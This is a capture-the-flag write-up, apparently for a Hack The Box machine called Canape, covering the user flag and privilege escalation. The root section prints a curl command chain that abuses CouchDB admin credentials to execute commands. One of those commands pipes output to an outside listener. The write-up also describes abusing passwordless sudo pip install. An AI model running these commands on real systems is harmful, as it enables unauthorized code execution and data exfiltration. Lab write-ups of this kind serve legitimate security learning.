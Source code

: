 If we pay atenttion to the **home** directory, we'll just find **homer** user. So my next step was to try to login with this user using some of this credentials. Fortunately, the first one (the **ssh** one) worked, and seconds later I was able to get the user flag: 

![user_flag](./images/canape/user_flag.png)

## Root 

To start, I ran again the **LinEnum.sh** but this time tried to pay a little more of attention to the output, but... it was worthless. Nothing point me to the right direction.

In some moment, I thought that the couchdb was running as **root**. I decided to look for some public exploit. Fortunately, I found one that allowed you to execute commands if you were a system admin. Not only we had the user created by us, but also **couchy** (look the docs of the **password** db) was admin. 
Thanks to this [blogpost](https://www.octority.com/2017/05/16/from-couchdb-admin-to-remote-code-execution/) first, and a little help from [this](https://stackoverflow.com/questions/37401355/cant-create-server-admin-in-couchdb) also I was able to successfully execute commands: 

```bash
curl -X PUT 'http://couchy:r3lax0Nth3C0UCH@localhost:5986/_config/query_servers/cmd' -d '"whoami | curl http://10.10.14.255:5555 -d @-"'  --insecure
curl -X PUT 'http://couchy:r3lax0Nth3C0UCH@localhost:5986/testing' --insecure
curl -X PUT 'http://couchy:r3lax0Nth3C0UCH@localhost:5986/testing/blah' -d '{"_id":"770855a97726d5666d70a22173005c77"}' --insecure
curl -X POST 'http://couchy:r3lax0Nth3C0UCH@localhost:5986/testing/_temp_view?limit=11' -d '{"language":"cmd","map":""}' -H 'Content-Type: application/json' --insecure
```
Unfortunately, when I went to my shell where I was hosting the NC in port 5555, the news were bad. The answer of the **whoami** wasn't root but homer. I must have confused with some other running process. 

I continued looking for some interesting thing, but nothing showed up. 

During that search, I issued: 
```bash
sudo -l 
```

And this was the output:
![sudoers][./images/canape/sudoers.png]

For those not very familiar, this means that the user **homer** can run as **root** the command **pip install** without providing a password (this comes from the configuration of the /etc/sudoers file). How can we abuse this?

**PIP** is a python packet manager. It allows not only to write down the package you want (and if it's in the pipy repository download it) but also it allows you to install packages providing the source file directly. Usually, python packages have a very particular file called **setup.py** which is the one in charge of really installing the package in your enviroment (virtual env or general env). 
